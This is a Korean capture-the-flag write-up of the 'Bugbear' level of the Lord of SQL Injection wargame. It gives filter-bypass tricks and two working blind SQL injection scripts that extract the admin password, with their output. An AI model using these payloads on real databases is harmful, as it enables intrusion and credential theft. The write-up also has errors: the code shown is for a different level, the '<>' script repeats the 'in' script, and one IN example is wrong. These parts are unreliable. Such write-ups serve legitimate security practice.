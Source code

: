 # **Bugbear**
## 1. 문제의도
Blind Injection을 아나요?

----
## 2. 코드
```php
  <?php
    include "./config.php";
    login_chk();
    dbconnect();

    if(preg_match('/prob|_|\.|\(\)/i', $_GET[no]))
      exit("No Hack ~_~");

    if(preg_match('/\'/i', $_GET[pw]))
      exit("HeHe");

    if(preg_match('/\'|substr|ascii|=/i', $_GET[no]))
      exit("HeHe");

    $query = "select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}";
    echo "<hr>query : <strong>{$query}</strong><hr><br>";
    $result = @mysql_fetch_array(mysql_query($query));

    if($result['id'])
      echo "<h2>Hello {$result[id]}</h2>";

    $_GET[pw] = addslashes($_GET[pw]);
    $query = "select pw from prob_darkknight where id='admin' and pw='{$_GET[pw]}'";
    $result = @mysql_fetch_array(mysql_query($query));

    if(($result['pw']) && ($result['pw'] == $_GET['pw']))
      solve("darkknight");

    highlight_file(__FILE__);
  ?>
```
----
### 1. preg_match()
information_schema 와 문제 테이블들에 대한 직접 접근을 막고 있다.  
또한 substr, ascii, = 와 '의 사용을 막고 있다  

```php
  if(preg_match('/prob|_|\.|\(\)/i', $_GET[no]))
    exit("No Hack ~_~");

  if(preg_match('/\'/i', $_GET[pw]))
    exit("HeHe");

  if(preg_match('/\'|substr|ascii|=/i', $_GET[no]))
    exit("HeHe");
```

pw 그리고 no 에서 싱클쿼터를 막고 있지만 no에는 싱글쿼터가 없는 상황이기에 no를 통해 blind injection을 진행해보자.

### 2. query
```SQL
  select id from prob_darkknight where id='guest' and pw='{$_GET[pw]}' and no={$_GET[no]}
```

접근 할 수 있는 부분 : pw, no GET parameter  

### 3. 통과 조건
```php
  if(($result['pw']) && ($result['pw'] == $_GET['pw']))
    solve("darkknight");
```
우리는 pw를 직접 알 필요가 있다.

----
## 3. Solution
no 파라미터를 통한 블라인드 인젝션으로 admin 계정의 pw 를 알아보자!!
전 문제보다는 조금은 다른 함수들을 사용해야 한다.  

### in
어떤 set(? 배열?) 안에 해당 요소가 포함되어 있는지 체크하는 함수 이다.  
```
1 in (1) => True  
2 in (2) => False  
2 in (1,2) => True  
3 in (1,2) => False
```
이정도면 감이 왔으리라 생각한다.

### between
어떤 값이 어떤 범위안에 있는지 물어 보는 것이다.  
```
1 between 1 and 2 => True
2 between 1 and 2 => True
3 between 1 and 2 => False
```

### rlike
reg exp 를 이용한 like 이다.  
단순히 like 에 정규표현식을 사용 가능하게 한 것이다.  
하지만 like를 필터링 하고 있으므로 pass;  

### <>
같다 가 아닌 다르다의 의미이다.  
!= 와 같은 것이다. 이것을 이용해서도 충분히 공격쿼리를 작성해 볼 수 있다.

### My Answers :

이번 문제도 간단한 블라인드 SQLi 이다.

다음과 같은 python 코드를 작성하여 해결 하였다.

> in 활용
```python
#-*- coding: utf-8 -*-
import string
from web import *

url = "http://los.eagle-jump.org/bugbear_431917ddc1dec75b4d65a23bd39689f8.php?&no={}"

# get length
# query 0%7C%7Cid%0ain%0a("admin")%0a%26%26length(pw)%0ain%0a(7)
inject_url = '0\n||\nid\nin\n("admin")\n&&\nlength(pw)\nin\n({})'
for i in range(1, 100):
    req = getRequest(url,inject_url.format(i), show=False)
    page = getPage(req)
    if "Hello admin" in page:
        length = i
        break

print "Length :",length

# get password : brute forcing
password = ""
inject_url = '0\n||\nid\nin("admin")&&mid(pw,{},1)\nin\n("{}")'
for i in range(1,length+1):
    for c in string.digits + string.letters:
        req = getRequest(url, inject_url.format(i,c),show=False)
        page = getPage(req)
        if "Hello admin" in page:
            print i,"'th letter is",c
            password += c
            break

print "Password :",password

```

> <> 활용
``` python
#-*- coding: utf-8 -*-
import string
from web import *

url = "http://los.eagle-jump.org/bugbear_431917ddc1dec75b4d65a23bd39689f8.php?&no={}"

# get length
# query 0%7C%7Cid%0ain%0a("admin")%0a%26%26length(pw)%0ain%0a(7)
inject_url = '0\n||\nid\nin\n("admin")\n&&\nlength(pw)\nin\n({})'
for i in range(1, 100):
    req = getRequest(url,inject_url.format(i), show=False)
    page = getPage(req)
    if "Hello admin" in page:
        length = i
        break

print "Length :",length

# get password : brute forcing
password = ""
inject_url = '0\n||\nid\nin("admin")&&mid(pw,{},1)\nin\n("{}")'
for i in range(1,length+1):
    for c in string.digits + string.letters:
        req = getRequest(url, inject_url.format(i,c),show=False)
        page = getPage(req)
        if "Hello admin" in page:
            print i,"'th letter is",c
            password += c
            break

print "Password :",password

```

```
> python .\13_Bugbear.py
Length : 8
1 'th letter is 7
2 'th letter is 3
3 'th letter is 5
4 'th letter is c
5 'th letter is 2
6 'th letter is 7
7 'th letter is 7
8 'th letter is 3
Password : 735c2773

> python 13_Bugbear_other_case.py
Length : 8
1 'th letter is 7
2 'th letter is 3
3 'th letter is 5
4 'th letter is c
5 'th letter is 2
6 'th letter is 7
7 'th letter is 7
8 'th letter is 3
Password : 735c2773
```

둘 다 잘 작동한다!!  
735c2773 를 입력해서 클리어~~!!

**Lastly, There can be many answers**

**[Go to see other solutions](https://github.com/moreal/WriteUp/blob/master/Wargame/Lord%20of%20SQL%20Injection/00.%20ReadMe.md)**
